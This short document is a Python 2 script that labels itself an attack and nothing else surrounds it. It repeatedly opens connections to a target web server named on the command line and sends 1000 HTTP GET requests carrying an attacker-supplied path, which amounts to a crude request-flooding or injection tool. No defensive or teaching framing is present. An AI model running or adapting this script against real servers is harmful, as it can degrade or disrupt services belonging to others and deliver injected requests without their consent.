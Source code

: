 # import-socket-sys-os-print-Attacking-sys.argv-1-...-print-injecting-sys
import socket, sys, os   print "][ Attacking " + sys.argv[1]  + " ... ]["   print "injecting " + sys.argv[2];   def attack():       #pid = os.fork()       s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)       s.connect((sys.argv[1], 80))       print ">> GET /" + sys.argv[2] + " HTTP/1.1"       s.send("GET /" + sys.argv[2] + " HTTP/1.1\r\n")       s.send("Host: " + sys.argv[1]  + "\r\n\r\n");       s.close()   for i in range(1, 1000):       attack()  
